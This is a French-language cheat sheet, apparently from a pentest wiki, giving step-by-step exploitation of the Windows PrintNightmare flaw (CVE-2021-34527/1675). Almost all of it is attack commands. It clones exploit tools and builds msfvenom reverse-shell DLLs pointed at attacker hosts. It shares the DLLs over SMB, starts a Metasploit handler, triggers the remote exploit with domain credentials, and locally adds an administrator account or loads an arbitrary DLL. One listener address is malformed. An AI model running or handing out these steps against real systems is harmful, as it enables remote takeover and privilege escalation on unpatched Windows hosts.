 ```yaml
---
public: true
---
```


|  |  |
| --- | --- |
| CVE | [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) et [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) |
| Correctif fixant la vulnérabilité | CU 2021-06 et 2021-07 |

## Eléments nécessaires à l'exploitation

- Machine non patchée
- Spooler d'impression démarré (par défaut toutes les machines)

## Exploitation

### A distance

#### Installation de l'outil

```shell
git clone https://github.com/cube0x0/CVE-2021-1675.git

## Nécessite une version modifiée d'impacket
pip3 uninstall impacket # désinstallation d'impacket
git clone https://github.com/cube0x0/impacket # installation de la version modifiée
cd impacket
python3 ./setup.py install
```

#### Vérification de la disponibilité du spooler

```shell
rpcdump.py @$TARGET_IP | egrep 'MS-RPRN|MS-PAR'
```

#### Exécution de l'attaque

```shell
# Creation d'un reverse shell au format DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
msfvenom -p windows/shell_reverse_tcp LHOST=10.172.16.5.225 LPORT=443 -f dll > shell.dll
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACK_IP LPORT=1234 -f dll > bad.dll
# Partage de la dll
sudo 
smbserver.py -smb2support CompData  . &

# Exécution du multi handler depuis msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST ATTACK_IP
set LPORT 1234
run

# Déclenchement de l'exploit
sudo python3 CVE-2021-1675.py domain.local/$AD_USER:$AD_PASSWORD@$TARGET_IP '\\ATTACK_IP\ShareName\bad.dll'
```

### Localement

On pourra utiliser ce POC qui s'appuie sur powershell : <https://github.com/calebstewart/CVE-2021-1675>

#### Vérification de la disponibilité du spooler

```powershell
ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```

#### Exécution de l'attaque

<https://github.com/cube0x0/CVE-2021-1675>

#### Chargement du module

```powershell
Set-ExecutionPolicy Bypass -Scope Process

Import-Module .\cve-2021-1675.ps1
```

#### Création d'un compte administrateur local

```shell
# Add a new user to the local administrators group by default:
Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure" 

```

#### Chargement d'une DLL de notre choix (reverse shell par exemple)

```shell
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
```

#### Vérification

```shell
net user hacker
```
